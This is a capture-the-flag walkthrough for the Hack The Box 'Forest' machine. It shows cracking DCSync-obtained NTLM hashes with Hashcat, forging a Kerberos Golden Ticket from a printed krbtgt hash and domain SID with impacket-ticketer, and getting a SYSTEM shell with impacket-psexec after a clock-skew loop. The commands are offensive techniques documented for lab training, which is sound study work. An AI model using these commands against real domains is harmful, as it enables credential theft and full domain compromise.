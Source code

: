 # Alternative way to exploit Forest

## Cracking the Hashes

After getting all the hashes with the **DCSync**, it can be tried to crack them with **Hashcat**:
```
hashcat --user -m 1000 forest_ntlm.hash /usr/share/wordlists/rockyou.txt

hashcat --user -m 1000 forest_ntlm.hash --show
```

## Golden Ticket

With the **DCSync** attack, the hash of _krbtgt_ is also obtained:
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```

This user is there to sign Kerberos tickets in Windows.
If we are able to spoof this user, it is possible to create any ticket for any service which is called **Golden Ticket**.

Getting the domain SID:
```
Get-ADDomain htb.local
```
```
DomainSID : S-1-5-21-3072663084-364016917-1341370565
```

Using _impacket-ticketer_ to create the ticket in the current directory:
```
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local Administrator
```

It created _Administrator.ccache_ that has to be exported to the environment variables:
```
export KRB5CCNAME=Administrator.ccache
```

Login into the box with the user:
```
impacket-psexec htb.local/Administrator@forest -k -no-pass
```

> NOTE: Put _htb.local_ and _forest_ with the IP 10.10.10.161 into the _/etc/hosts_ file or the domain name will not get resolved

After trying to login, **Impacket** shows the following error:
```
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

This means that the time on the box and our local client are different, but they have to be the same for this to work.
The initial **Nmap** scan shows that the time difference is around four and half hours.
```
_clock-skew: mean: 2h53m05s, deviation: 4h37m10s, median: 13m03s
```

Looping every hour until the correct one hits:
```
for i in $(seq 00 24); do date -s $i:30:00; impacket-psexec htb.local/Administrator@forest -k -no-pass; done
```

After it finds the correct time, **PSexec** starts and logs us into the box as _SYSTEM_.
